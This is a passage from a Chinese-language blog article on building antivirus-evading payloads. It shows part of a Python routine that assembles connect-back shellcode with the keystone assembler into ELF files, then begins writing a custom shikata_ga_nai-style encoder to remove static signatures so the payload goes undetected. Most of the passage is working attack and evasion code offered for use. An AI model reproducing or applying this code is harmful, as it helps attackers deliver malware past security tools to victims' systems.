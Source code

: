 ```
            pop    rdx
            syscall 
            test   rax, rax
            js     failed

            jmp    rsi
        '''.format(
            retry_count = retry_count,
            encoded_host=encoded_host,
            encoded_port = encoded_port.replace("0x","")
        )
    # print(shellcode)

    try:
        encoding, count = ks.asm(shellcode)
        return encoding
    except k.KsError as e:
        print("ERROR: %s" %e)
        return []
```

主要是利用 keystone 这个汇编器对代码进行汇编，然后写入到elf文件中。<br>
上述代码运行成功后，可以根据选择的架构生成 `64` 或者 `32` 位的elf文件，并且经过测试，功能都是正常的。

[![](https://p0.ssl.qhimg.com/t01e5939685986e5749.png)](https://p0.ssl.qhimg.com/t01e5939685986e5749.png)

但是这样生成的二进制和利用 metasploit 直接生成的毫无差别，所以并不免杀。

[![](https://p5.ssl.qhimg.com/t012ddb0de895ddcfa9.png)](https://p5.ssl.qhimg.com/t012ddb0de895ddcfa9.png)

接下来我们就尝试编写自己的编码器，使得可以完全构建出免杀的文件。



## 编写shellcode编码器

在上一篇文章中，主要写了编码器 `x86/shikata_ga_nai` 比较容易被识别的一些静态特征，本文也不做太多的深入研究，我们就简单的修改metasploit的encoder `x86/shikata_ga_nai` 的代码，试图去除这些比较明显的静态特征，看是否能够满足当前的免杀需求。

首先我们模仿一下编码器 `x86/shikata_ga_nai` 的代码结构，来生成一个用来解密 shellcode 的 decoder_sub,代码实现如下:

```
def generate_shikata_block(shellcode):
    import random

    if ARCH == "x86":
        regs = [ "eax","ebx","ecx","edx","esi","edi" ]
        stack_base = "ebp"
        stack_head = "esp"
        addr_size = 0x4
    else:
        regs = [ "rax","rbx","rcx","rdx","rsi","rdi"  ] 
        stack_base = "rbp"
        stack_head = "rsp"  
        addr_size = 0x8 

    fpus = []
    fpus += [ bytes([0xd9,i])  for i in  range(0xe8,0xee+1)   ]
    fpus += [ bytes([0xd9,i])  for i in  range(0xc0,0xcf+1)   ]
    fpus += [ bytes([0xda,i])  for i in  range(0xc0,0xdf+1)   ]
    fpus += [ bytes([0xdb,i ])  for i in  range(0xc0,0xcf+1)   ]
    fpus += [ bytes([0xdd,i ])  for i in  range(0xc0,0xcf+1)   ]
    # fpus += [ b"\xd9\xd0",b"\xd9\xe1",b"\xd9\xf6",b"\xd9\xf7",b"\xd9\xe5" ]

    ks = k.Ks(k.KS_ARCH_X86,MODE)
```